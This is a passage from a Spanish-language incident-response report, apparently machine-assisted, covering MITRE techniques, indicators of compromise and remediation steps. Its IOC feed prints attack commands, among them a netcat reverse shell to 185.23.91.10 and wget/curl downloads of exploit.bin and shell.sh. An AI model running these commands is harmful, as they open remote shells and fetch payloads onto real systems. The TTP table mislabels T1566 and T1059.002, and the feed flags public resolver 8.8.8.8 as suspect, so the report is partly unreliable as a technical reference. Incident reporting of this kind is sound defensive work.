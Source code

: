 
**3. 🧠 Tabla de TTPs MITRE observadas:**

| ID      | Nombre                               | Fase del Ataque         |
|---------|---------------------------------------|-------------------------|
| T1059   | Command and Scripting Interpreter      | Ejecución/Explotación    |
| T1059.001 | PowerShell                               | Ejecución/Explotación   |
| T1059.002 | Scripting                                | Ejecución/Explotación   |
| T1105   | Ingress Tool Transfer                   | Exploración/Instalación |
| T1566   | External Remote Services               | Exploración             |
| T1566.002 | Spearphishing Attachment                | Entrega/Explotación      |


**4. 📦 IOC Feed:**

* **IPs:** 185.23.91.10, 185.23.91.11, 185.23.91.13, 185.23.91.18, 185.23.91.19, 203.0.113.50, 8.8.8.8 (potencialmente maliciosa por contexto, requiere más investigación)
* **Dominios:** malicious.domain
* **Archivos:** exfil.py, tmpx837sh.sh, install.sh, exploit.bin
* **Comandos:** `/usr/bin/python3 exfil.py`, `wget http://malicious.domain/exploit.bin`, `curl http://185.23.91.10:8080/shell.sh`, `bash /tmp/install.sh`, `nc -e /bin/bash 185.23.91.10 443`


**5. 📊 Estadísticas generales:**

* Total de eventos: 500
* Eventos críticos: 20+ (se considera el mínimo, hay muchos más eventos potencialmente críticos dependiendo de los archivos y dominios)
* Eventos informativos: 480+ (aproximado)
* Porcentaje de criticidad: >4% (aproximado)


**6. 🛠 Recomendaciones inmediatas:**

1. **Aislar el sistema comprometido:** Desconectar la máquina de la red para evitar la propagación del malware y la exfiltración de datos adicional.
2. **Análisis forense:** Realizar un análisis forense completo del sistema para identificar el alcance del compromiso,  la metodología del atacante y los datos exfiltrados.
3. **Bloquear las IPs maliciosas:** Implementar reglas de firewall para bloquear las IPs identificadas en el IOC feed.
4. **Análisis de vulnerabilidades:** Identificar y parchear las vulnerabilidades que permitieron la intrusión inicial.
5. **Restauración de logs:**  Recuperar y analizar backups de los logs para reconstruir la línea de tiempo del ataque. Si los logs están irreversiblemente corrompidos, investigar la causa.
6. **Cambiar credenciales:** Cambiar todas las contraseñas de cuentas de usuario, especialmente la de administrador (`admin`), `jdoe`, `svc_logs`, `svc_invoices`.
7. **Implementar una solución EDR/XDR:** Implementar o mejorar la capacidad de detección y respuesta a incidentes en el endpoint.
8. **Monitoreo continuo:** Implementar un monitoreo continuo de la actividad de la red y del sistema para detectar cualquier actividad sospechosa adicional.
9. **Capacitación de empleados:** Impartir capacitación a los empleados sobre las mejores prácticas de seguridad cibernética para evitar futuras intrusiones.
10. **Investigación de dominios y hashes:** Realizar investigación adicional en los dominios y hashes encontrados, particularmente "malicious.domain" y el hash de "exploit.bin", para obtener más información sobre el malware usado.



Este informe proporciona una vista inicial del incidente.  Una investigación más exhaustiva es crucial para comprender completamente el alcance del compromiso y implementar medidas de remediación efectivas.

